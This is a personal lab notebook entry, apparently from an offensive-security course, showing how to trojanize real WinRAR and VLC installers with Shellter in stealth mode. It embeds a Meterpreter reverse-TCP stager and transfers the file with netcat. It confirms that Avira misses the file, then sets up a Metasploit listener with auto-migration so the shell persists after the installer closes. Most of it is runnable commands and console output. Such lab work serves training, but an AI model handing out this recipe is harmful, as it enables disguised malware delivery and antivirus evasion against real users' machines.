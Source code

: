 17.3.3.4

# 17.3.3.4
## 17.3.3.4.1. Inject a meterpreter reverse shell payload in the WinRAR executable. 

On Kali, open the shellter application. We will get a new console pop-up
```plaintext
kali@kali:~$ shellter 
```
![ec616ebefdab1b0b82b5566d666f057d.png](:/ccacc2f009c441b78f9da9badd52afba)

Download winrar x86 32-bit from https://www.rarlab.com/rar/wrar591.exe

We must run sudo with shellter to enable backup of the winRAR file
```plaintext
kali@kali:~$ sudo shellter
[sudo] password for kali: 
wine: created the configuration directory '/root/.wine'
0012:err:ole:marshal_object couldn't get IPSFactory buffer for interface {00000131-0000-0000-c000-000000000046}
0012:err:ole:marshal_object couldn't get IPSFactory buffer for interface {6d5140c1-7436-11ce-8034-00aa006009fa}
0012:err:ole:StdMarshalImpl_MarshalInterface Failed to create ifstub, hres=0x80004002
0012:err:ole:CoMarshalInterface Failed to marshal the interface {6d5140c1-7436-11ce-8034-00aa006009fa}, 80004002
0012:err:ole:get_local_server_stream Failed: 80004002
0014:err:ole:marshal_object couldn't get IPSFactory buffer for interface {00000131-0000-0000-c000-000000000046}
Could not find Wine Gecko. HTML rendering will be disabled.
Could not find Wine Gecko. HTML rendering will be disabled.
wine: configuration in L"/root/.wine" has been updated.
```
![4ee893c7683738bbae5ab9619a825eeb.png](:/2d3d2848db91433ebdc46a65f65a69cf)

Enable Stealth Mode
![781284de0c562588e56e6c6d00a60a50.png](:/9e9931db57214169966cad19167b5241)

Choose a listed payload (#1) and set lhost and port according to our attacking Kali machine
![f8dce32306a7b490b8a2a6ffb944939e.png](:/aaacd6a179754a679439ae0215ac559f)

Press Enter to finish the process and close shellter.
![c24838d66070a4a9007fb37ee36ec30c.png](:/7a6901c4fff740ba85999d711ffd692d)



## 17.3.3.4.2. Transfer the binary to your Windows client and ensure that it is not being detected by the antivirus

Make sure to use a different port than the one used for the meterpreter payload when transferring the binary to the Windows client.

Manually scan the file with Avira. I had to put it in the Documents directory and run the scan from there. We see it is not detected by Avira.
![9b1efff984d305cc94267bd2ed70fbf7.png](:/bfd93febccab4921a5e5d0a446fff44e)
![00b4e1328689e7da264258c8bcac3d11.png](:/4ed10cfdb01f403a97d7b7ead7597097)


## 17.3.3.4.3. Run the WinRAR installer and migrate your meterpreter shell to prevent a disconnect.

Configure a listener on the Kali machine
```plaintext
kali@kali:~$ sudo msfconsole -q
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.119.214
lhost => 192.168.119.214
msf5 exploit(multi/handler) > set exitfunc thread
exitfunc => thread
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.119.214  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.119.214:4444 
```

Run wrar591.exe
![a53edbc2c90d02434933df02fef0f16f.png](:/5a1da15682894ebfa463eea5feb474a7)

Notice we get a shell!
![e9130814409467513d996db1ec65d150.png](:/bff89d034cf24d1a8c82ffa0af5b7cd1)

However, if we finish installation or cancel the installation, the shell dies.

Set the AutoRunScript in the listener:
```plaintext
msf5 exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
AutoRunScript => post/windows/manage/migrate
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.119.214:4444 
```
![967bb9f5b701ce4ce1c9bd284b1a549c.png](:/41467c669a2841b6bf8c7f51f5a7ba4c)

Now run the wrar591.exe again. We get a shell that persists even if installation is canceled.
![1e4de2c4cf4823a01d2f3239004b3ad7.png](:/c43c6c094bfa4e50bc6633615df5afe6)


## 17.3.3.4.4. Attempt to find different executables and inject malicious code into them using Shellter. 

Download VLC Media player from https://get.videolan.org/vlc/3.0.11/win32/vlc-3.0.11-win32.exe

Run shellter
```plaintext
kali@kali:~/Downloads$ sudo shellter

```

We get a new console. Enter the location of the downloaded binary.
![20ea554ef442a50c70c84ca760adecd7.png](:/0a000ed4b9fc4bfab5baa934182c2828)

Enable Stealth Mode, then use a listed payload [1] Meterpreter_Reverse_TCP [stager], then set lhost and lport
![5627163c7d29b766992acd551ebb916b.png](:/e59748f015674e3abea9afa00d64501c)

The injection is verified. Press Enter
![f3410f568a7ba927e531bd732b038d39.png](:/1f29a3e5a9644af888159eee072b181d)


Transfer the modified binary tp Windows client using netcat:
Kali
```plaintext
kali@kali:~/Downloads$ sudo nc -lnvp 4444 < vlc-3.0.11-win32.exe 
[sudo] password for kali: 
listening on [any] 4444 ...
```
Windows
```plaintext
C:\Users\Administrator\Documents>nc -nv 192.168.119.214 4444 > vlc-3.0.11-win.exe                       (UNKNOWN) [192.168.119.214] 4444 (?) open  
```

Check the binary with Avira. No malicious code detected!
![32e805c86ad461333acedbdd5d8d58f9.png](:/8c141d1bbdc24a668f526e5507a87c45)
![c9db9e294f86970d6913d316cdb7e53c.png](:/2bfa7f383cff4ccd9c8da138134ffcd5)

Configure a Kali listener
```plaintext
kali@kali:~$ sudo msfconsole -q
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.119.214
lhost => 192.168.119.214
msf5 exploit(multi/handler) > set exitfunc thread
exitfunc => thread
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.119.214  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.119.214:4444 
```
![e2181d69417cc652335f91ffc34bdaf0.png](:/ff8ac93cda58495f905b8867d415c9a9)



Run the VLC installer. We get an NSIS Error message that installer integrity check failed.
![262581ff533ad9da665e4178e668d129.png](:/7abb5d72098948f18ac706695ede754b)

We get a shell, however it dies once we press OK on the NSIS error
![4f0db7f0433aed33656d4e803cd65e65.png](:/f11e6ca4f81c44228b5c97f21d717ca9)

Set AutoRunScript
```plaintext
msf5 exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
AutoRunScript => post/windows/manage/migrate
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.119.214:4444 
```
![eccb42f0ea819ddb51c3d54a61f516ca.png](:/8c8ba27ad4cf4454bb9af75ab6f384ae)

Run the vlc install binary. We get the same NSIS error. Press OK
![c8d95eeb45b74c6290a26b972fca1af3.png](:/362fd1841e2140fab15e3eced0f22700)

We get a shell that persists even after pressing OK on the error message
![10f8a62e10d769e91910507f969d307b.png](:/fd6d42f71ff14bfbbfac1a8344c5a095)


id: edfe8e5d016248bb9bab3ec38d942b48
parent_id: 025725598df64de49c3310c1e2d266c0
created_time: 2020-10-02T22:09:47.150Z
updated_time: 2020-10-02T22:09:48.613Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T22:09:47.150Z
user_updated_time: 2020-10-02T22:09:48.613Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1